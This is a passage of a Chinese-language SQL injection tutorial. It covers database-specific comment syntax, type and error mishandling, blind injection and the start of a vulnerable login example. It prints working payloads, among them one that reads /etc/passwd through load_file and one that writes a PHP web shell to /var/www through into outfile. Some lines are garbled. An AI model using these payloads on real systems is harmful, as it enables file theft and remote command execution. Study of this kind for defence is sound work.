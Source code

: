 ```
http://www.xxx.com/id=1 || utl_inaddr.get_host_address(local)--
--星号后跟一个正斜线，用于结束注释或Oracle中的优化提示
http://www.xxx.com/hint=*/ from dual-
在SAP MAX DB（SAP DB）中，开始定界符是由一个小于符号和一个感叹号组成的：
http://www.xxx.com/id=1 union select operating system from sysinfo.version--<!
```
#### 类型处理不当
处理数字数据时，不需要使用单引号将数字数据引起来，否则，数据数据会被当作字符串处理。 MYSQL 提供了一个名为LOAD_FILE的函数，它能够读取文件并将文件内容作为字符串返回。调用该函数的用户必须拥有FILE权限。
```sql
union all select load_file('/etc/passwd')--
MYSQL内置命令，使用该命令来创建系统文件并进行写操作。
union select "<? system($_request['cmd']); ?>" into outfile "/var/www/cmd.php" -
```
#### 查询语句组装不当
有时需要使用动态SQL语句对某些复杂的应用进行编码，因为在程序开发阶段不可能还不知道要查询的表或字段。

#### 错误处理不当
将详细的内部错误消息（如数据库转储、错误代码等）显示给用户或攻击者。
```sql
' and 1 in (select @@version) -
```
#### 多个提交处理不当
白名单是一种除了白名单中的字符外，禁止使用其他字符的技术。黑名单是一种除了黑名单中的字符外，其他字符均允许使用的技术。 多参数查询，多参数可能产生注入。

## 1.3 SQL盲注
有时不可能显示数据库的所有信息，但并不代表代码不会受到SQL注入攻击。
```sql
user' or '1'='1--- Invalid password
user' or '1'='1--- Invalid username or password
```
发现这种情况，可注入一个永假条件并检查返回值的差异，这对进一步核实username字段是否易受SQL注入攻击来说非常有用。
SQL盲住是一种SQL注入漏洞，攻击者可以操纵SQL语句，应用会针对真假条件返回不同的值。但是攻击者无法检索查询结果。

## 1.4 SQL注入例子
下面的用户登录验证程序就是SQL注入的例子：
 1. 创建用户表user
```sql
create table user(
userid int(11) not null auto_increment,
username varchar(20) not null default '',
password varchar(20) not null default '',
primary key (userid)
)type=MyISAM auto_increment=3 ;
```
 2. 给用户表user添加一条用户记录
```sql
insert into 'user' values (1,'ange1','mypass');
```
 3. 验证用户root登录localhost服务器
